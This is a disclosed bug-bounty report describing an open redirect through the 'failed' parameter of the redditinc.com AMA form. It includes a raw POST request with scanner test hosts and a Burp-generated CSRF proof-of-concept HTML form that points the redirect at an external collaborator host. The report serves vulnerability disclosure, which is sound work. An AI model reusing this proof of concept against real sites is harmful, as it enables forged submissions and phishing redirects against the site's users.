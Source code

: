 # Open Redirect on www.redditinc.com via `failed` query param

## Report Details
- **Report ID**: 1257753
- **URL**: https://hackerone.com/reports/1257753
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-12T01:51:41.736Z
- **Disclosed**: 2022-09-22T23:27:00.226Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
hello dear support

I have found the issue on https://www.redditinc.com/ama

HTTP request 

POST /ama HTTP/1.1
Content-Type: multipart/form-data; boundary=----------YWJkMTQzNDcw
Cookie: CRAFT_CSRF_TOKEN=958b77eaad06452d68f0be48c5edf5b0d928b51a6c4afbb5f2f95397f18b43e2a%3A2%3A%7Bi%3A0%3Bs%3A16%3A%22CRAFT_CSRF_TOKEN%22%3Bi%3A1%3Bs%3A40%3A%22jZdkLxGgRNVPWIF2OyxH-Lig9pTukLSS8OxYOVST%22%3B%7D;OptanonAlertBoxClosed=2021-07-12T01:35:46.350Z;OptanonConsent=isIABGlobal=false&datestamp=Mon+Jul+12+2021+04%3A35%3A46+GMT%2B0300+(Arabian+Standard+Time)&version=6.13.0&hosts=&consentId=71f221d5-8a57-4a90-9844-0a863bfc837d&interactionCount=2&landingPath=NotLandingPage&groups=C0001%3A1%2CC0002%3A1%2CC0004%3A1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Content-Length: 1508
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4298.0 Safari/537.36
Host: www.redditinc.com
Connection: Keep-alive

------------YWJkMTQzNDcw
Content-Disposition: form-data; name="action"

zendesk/default/submit
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="agreement"

yes
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="description"

555
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="email"

sample@email.tst
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="email_confirm"

sample@email.tst
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="failed"

http://xfs.bxss.me
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="name"

pHqghUme
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="organization"

Acunetix
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="participants"

pHqghUme
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="redirect"

74bcbfb4f9c047fb4e467dd203ca3b30f2b31216551ab9db2bf44911c029d506thank-you/ama-form-step-1
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="subject"

AMA Request
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="success"

thank-you/ama-form-step-1
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="ticket_form_id"

360000307211
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="timeframe"

next-week
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="timezone"

(GMT-05:00) Eastern Time (US & Canada)
------------YWJkMTQzNDcw--
===============================================================

vuln here :Content-Disposition: form-data; name="failed"

http://xfs.bxss.me
------------YWJkMTQzNDcw

CSRF PoC
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.redditinc.com/ama" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="action" value="zendesk&#47;default&#47;submit" />
      <input type="hidden" name="agreement" value="yes" />
      <input type="hidden" name="description" value="555" />
      <input type="hidden" name="email" value="sample&#64;email&#46;tst" />
      <input type="hidden" name="email&#95;confirm" value="sample&#64;email&#46;tst" />
      <input type="hidden" name="failed" value="http&#58;&#47;&#47;0bc7dpd4u9tmsh9ruo3n8644pvvlja&#46;burpcollaborator&#46;net" />
      <input type="hidden" name="name" value="pHqghUme" />
      <input type="hidden" name="organization" value="Acunetix" />
      <input type="hidden" name="participants" value="pHqghUme" />
      <input type="hidden" name="redirect" value="74bcbfb4f9c047fb4e467dd203ca3b30f2b31216551ab9db2bf44911c029d506thank&#45;you&#47;ama&#45;form&#45;step&#45;1" />
      <input type="hidden" name="subject" value="AMA&#32;Request" />
      <input type="hidden" name="success" value="thank&#45;you&#47;ama&#45;form&#45;step&#45;1" />
      <input type="hidden" name="ticket&#95;form&#95;id" value="360000307211" />
      <input type="hidden" name="timeframe" value="next&#45;week" />
      <input type="hidden" name="timezone" value="&#40;GMT&#45;05&#58;00&#41;&#32;Eastern&#32;Time&#32;&#40;US&#32;&amp;&#32;Canada&#41;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

{F1373178}

## Impact

Cross-Site Request Forgery (CSRF) To Open Redirect

## Attachments
- bandicam_2021-07-12_04-47-54-654.mp4
